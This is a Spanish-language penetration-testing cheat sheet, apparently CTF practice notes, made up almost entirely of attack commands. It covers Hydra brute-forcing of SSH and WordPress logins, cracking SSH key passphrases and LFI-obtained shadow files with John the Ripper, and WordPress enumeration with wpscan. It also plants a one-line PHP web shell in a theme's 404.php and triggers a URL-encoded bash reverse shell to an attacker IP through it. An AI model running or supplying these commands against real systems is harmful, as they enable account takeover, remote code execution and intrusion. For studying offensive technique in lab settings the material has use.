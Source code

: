 hydra -t 4 -l username -P usrshare/wordlists/rockyou.txt ssh://<ip>

SSH 
ssh -i <path id_rsa> user@ip

Bruteforcing SSH con id_rsa>id_rsa.txt
Para conectarnos sin saber la pass es necesario tener id_rsa, id_rsa.pub y passphrase del usuario, puede estar dentro de un equipo local.

ssh2john crea un archivo hash de una llave id_rsa(clave privada de ssh)
python /usr/share/john/ssh2john.py id_rsa.txt > sshhash.txt 

encontramos una posible passphrase de id_rsa
john --wordlist=rockyou.txt sshhash.txt

#Teniendo shadow y passwd files (LFI)
guardamos los archivos en shadow_ y passwd_
Opcion 1) john --wordlist=/usr/share/wordlists/rockyou.txt shadow_file
Opcion 2)  unshadow PASSWORD-FILE SHADOW-FILE > unshadow_output.txt

cuando nos logueamos a otro usuarios
ssh -i /archivo_id_rsa usuario@ip 
nos va a preguntar la frase secreta obtenida con john


#Crackeo de cuentas en servicios

##John
Para crackear pass
john -w /rockyou file
prefijos:
prefix. "$2a$" or "$2b$" bcrypt//-   john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash 

#Wordpress
##Hydra haciendo antes un curl para obtener parametro usuario, pass, submit
hydra -L /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt -P /usr/share/wordlists/rockyou.txt 10.10.107.13 -V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
##wpscan
wpscan --url http://internal.thm/blog -e u
wpscan --url http://spectra.htb/main --detection-mode aggressive -e ap -o wpscan
wpscan --url http://bla/main --plugins-detection aggressive -e ap -o wpscan2

#Obtener una shell
#Modif de plugins o temas en 404.php o algun archivo que no sea critico
Agregar en primera linea
<? system($_REQUEST['variable']); ?>
http:/<url>/wp-content/themes/eltemaqsea/404.php?variable=whoami   <RCE
bash+-c+'bash+-i+>%26+/dev/tcp/<ipatacante>/<pto>%261'       (variable=bash -c 'bash -i >& /dev/tcp/<ip>/<pto> 0>&1' con urlencoding)
#Burp 
Usando el proxy
Podemos probar cualquier comando para php revershell y haciendo un get a esa url con burp activado (Send)
 
